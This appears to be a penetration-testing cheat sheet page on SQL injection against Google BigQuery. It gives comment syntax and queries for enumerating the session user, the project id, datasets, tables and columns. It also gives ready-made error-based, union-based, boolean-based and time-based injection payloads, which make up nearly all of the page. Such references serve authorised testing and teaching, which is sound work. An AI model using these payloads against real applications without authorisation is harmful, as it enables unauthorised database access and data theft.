 ### BigQuery SQL Injection

For further information you can check the blog post: [https://ozguralp.medium.com/bigquery-sql-injection-cheat-sheet-65ad70e11eac](https://ozguralp.medium.com/bigquery-sql-injection-cheat-sheet-65ad70e11eac). Here just some details are going to be given.

**Comments**:

- `select 1#from here it is not working`
- `select 1/*between those it is not working*/` But just the initial one won't work
- `select 1--from here it is not working`

Get **information** about the **environment** such as:

- Current user: `select session_user()`
- Project id: `select @@project_id`

Concat rows:

- All table names: `string_agg(table_name, ', ')`

Get **datasets**, **tables** and **column** names:

- **Project** and **dataset** name:

```sql
SELECT catalog_name, schema_name FROM INFORMATION_SCHEMA.SCHEMATA
```

- **Column** and **table** names of **all the tables** of the dataset:

```sql
# SELECT table_name, column_name FROM <proj-name>.<dataset-name>.INFORMATION_SCHEMA.COLUMNS

SELECT table_name, column_name FROM <project-name>.<dataset-name>.INFORMATION_SCHEMA.COLUMNS
```

- **Other datasets** in the same project:

```sql
# SELECT catalog_name, schema_name, FROM <proj-name>.INFORMATION_SCHEMA.SCHEMATA

SELECT catalog_name, schema_name, NULL FROM <project-name>.INFORMATION_SCHEMA.SCHEMATA
```

**SQL Injection types:**

- Error based - casting: `select CAST(@@project_id AS INT64)`
- Error based - division by zero: `' OR if(1/(length((select('a')))-1)=1,true,false) OR '`
- Union based (you need to use ALL in bigquery): `UNION ALL SELECT (SELECT @@project_id),1,1,1,1,1,1)) AS T1 GROUP BY column_name#`
- Boolean based: `` ' WHERE SUBSTRING((select column_name from `project_id.dataset_name.table_name` limit 1),1,1)='A'# ``
- Potential time based - Usage of public datasets example: `` SELECT * FROM `bigquery-public-data.covid19_open_data.covid19_open_data` LIMIT 1000 ``

**Documentation:**

- All function list: [https://cloud.google.com/bigquery/docs/reference/standard-sql/functions-and-operators](https://cloud.google.com/bigquery/docs/reference/standard-sql/functions-and-operators)
- Scripting statements: [https://cloud.google.com/bigquery/docs/reference/standard-sql/scripting](https://cloud.google.com/bigquery/docs/reference/standard-sql/scripting)

